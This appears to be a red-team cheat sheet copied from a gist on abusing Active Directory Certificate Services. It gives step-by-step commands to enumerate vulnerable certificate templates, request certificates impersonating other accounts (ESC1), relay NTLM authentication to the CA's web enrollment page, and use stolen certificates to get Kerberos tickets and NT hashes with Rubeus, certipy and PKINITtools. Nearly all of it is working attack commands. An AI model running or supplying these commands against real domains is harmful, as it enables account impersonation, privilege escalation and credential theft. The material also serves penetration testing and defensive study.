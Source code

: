 # AD Certificate Services (PKI Abuse)
(copied from https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250)

Some golden links when you are having issues:
https://social.technet.microsoft.com/Forums/windows/en-US/96016a13-9062-4842-b534-203d2f400cae/ca-certificate-request-error-quotdenied-by-policy-module-0x80094800quot-windows-server-2008?forum=winserversecurity


## Enumerating ADCS On Linux

Download and install Certi
```shell
git clone https://github.com/eloypgz/certi
cd certi
sudo python3 setup.py install
```

Certi only support kerberos auth, so to perform authenticated enumeration, you need to fetch a TGT for a valid user first.
```shell
getTGT.py '<domain>/<username>:<password>' -dc-ip <dc-ip>
```
Set the env var to the output ccache

```shell
export KRB5CCNAME=/full/path/to/<username>.ccache
```

Enumerate Certificate Authorities on the domain (CA's)
```shell
python3 certi.py list '<domain>/<username>' -k -n --dc-ip <dc-ip> --class ca
```

Enumerate vuln templates
```shell
python3 certi.py list '<domain>/<username>' -k -n --dc-ip <dc-ip> --vuln --enable
```

## Requesting certs from CA Linux
 Requesting a cert with an alt subject name (ESC1)
 ```shell
python3 certi.py req '<domain>/<username>@<ca-server>' <ca-service-name> -k -n --dc-ip <dc-ip> --template <vuln-template> --alt-name <target-domain-account>
```
## Authenticating using cert on Linux

Request an TGT from Certificate with Client Auth or Smart Card Auth
```shell
python3 gettgtpkinit.py <domain>/<username> -cert-pfx <pfx-certificate-file> -pfx-pass <certificate-password> admin_tgt.ccache   
 ```

Get NTHash from requestd TGT above (KEY is outputed from the command above) 
```shell
python3 getnthash.py -key <AS-REP-encryption-key> -dc-ip <dc-ip> <domain>/<username> output_tgt.ccache
```
Note: You have to change the KRB5CCNAME variable to the target users tgt ccache file first (admin_tgt.ccache above):
```shell
export KRB5CCNAME=/full/path/to/admin_tgt.ccache
```

## Relaying On Linux

Relaying incoming SMB/HTTP connection to ADCS to generate a certificate on

Fetch and install a custom fork of impacket
```shell
git clone https://github.com/ExAndroidDev/impacket.git
cd impacket
git checkout ntlmrelayx-adcs-attack
```

Create a virtual python env to contain this version of impacket (Avoid breaking the release you already have installed)
```shell
apt install python3-venv
python3 -m venv adcs-impacket
```

Move "into" this virutal env 
```shell
source adcs-impacket/bin/activate
```
Still inside the impacket folder

```shell
pip3 install .
```

You can now setup ntlmrelay for realying 
```shell
python3 examples/ntlmrelayx.py -t http://<ca-server>/certsrv/certfnsh.asp -smb2support --adcs --template <template-name>
```

## Authentication using certificate on Linux
```shell
python3 gettgtpkinit.py <domain>/<username> -pfx-base64 $(cat <base64-cert.file>) -dc-ip <dc-ip> out_tgt.ccache
```

# Pass-The-Certificate
A Kerberos service ticket, can only be obtained by presenting a TGT. This TGT can be obtained by
a) ASREPRoast (if Kerberos pre-auth is disabled)
b) symmetrical pre-authentication (using a DES,RC4,AES128 or AES256 key)
c) asymmetrical pre-authentication (using certificates) --> This is also called PKINIT

Pass-The-Certificate is the fancy given name of this certificate based pre-authentication.   

NOTE: Keep in mind a certificate in itself cannot be used for authentication without the knowledge of the private key. 

## Windows
`Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show`   

NOTE: PEM certificates can be exported to a PFX format with openssl. Rubeus doesn't handle PEM certificates.   
`openssl pkcs12 -in "cert.pem" -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "cert.pfx"`   

## Unix 
```
# PFX certificate (file) + password (string, optionnal)
gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# Base64-encoded PFX certificate (string) (password can be set)
gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# PEM certificate (file) + PEM private key (file)
gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
```
Alternatively, certipy (python) can be used:   
`certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'`   
Certipy's commands don't support PFXs with password. The following command can be used to "unprotect" a PFX file:   
`certipy cert -export -pfx "PATH_TO_PFX_CERT" -password "CERT_PASSWORD" -out "unprotected.pfx"`   

The ticket obtained can then be used to:   
1. authenticate with [pass-the-cache](https://www.thehacker.recipes/ad/movement/kerberos/ptc)   
2. conduct an [UnPAC-the-hash](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash) attack. This can be done with getnthash.py from PKINITtools.   
3. obtain access to the account's SPN with an S4U2Self. This can be done with [gets4uticket.py](https://github.com/dirkjanm/PKINITtools/blob/master/gets4uticket.py) from PKINITtools.   

NOTE: When using Certipy for Pass-the-Certificate, it automatically does UnPAC-the-hash to recover the account's NT hash, in addition to saving the TGT obtained.   
